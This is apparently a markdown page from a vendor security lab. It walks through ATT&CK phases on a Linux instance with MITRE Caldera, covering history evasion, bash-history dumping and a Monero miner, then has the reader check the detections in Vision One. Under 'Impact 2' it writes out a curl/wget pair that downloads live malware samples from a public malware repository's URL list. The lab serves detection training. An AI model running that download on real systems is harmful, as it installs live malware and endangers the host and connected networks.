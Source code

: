 ```yaml
---
title: "Linux"
chapter: false
weight: 51
pre: "<b>5.1 </b>"
---
```


<b>Before you start this lab, make sure the C1WS Policy attached to the Linux Instance is the "demo > visionone > prevention mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="926KXvQiQ-0" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "Weak executable files (T1574.010) - Locate and infect files with weak but executable perms". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="NOQU4tKmqiQ" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Avoid logs (T1070.003) - Stop terminal from logging history". In this way, the instructions you are executing will not be logged by the OS, making hard to the SOC Team to investigate and track the malicious instructions executed on this attack.

{{< youtube id="pFkTQmuWyGw" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Dump history (T1552.003) - Get contents of bash history". You may find sensitive information with this technique.

{{< youtube id="2KH_YkmH_6A" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="CbS21y0QvD4" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="AREqI9QRxsQ" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="zfGupkq1HVw" >}}

#### Impact 2
Using Mitre Caldera, you can deploy the following manual instruction. It will make the affected computer to download 0-day malwares from live repositories in the internet.

        curl http://vxvault.net/URL_List.php > urls.txt
        wget -i urls.txt --tries=1

{{< youtube id="ldIEFNi7EiE" >}}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="qf7pnUuLsK4" >}}


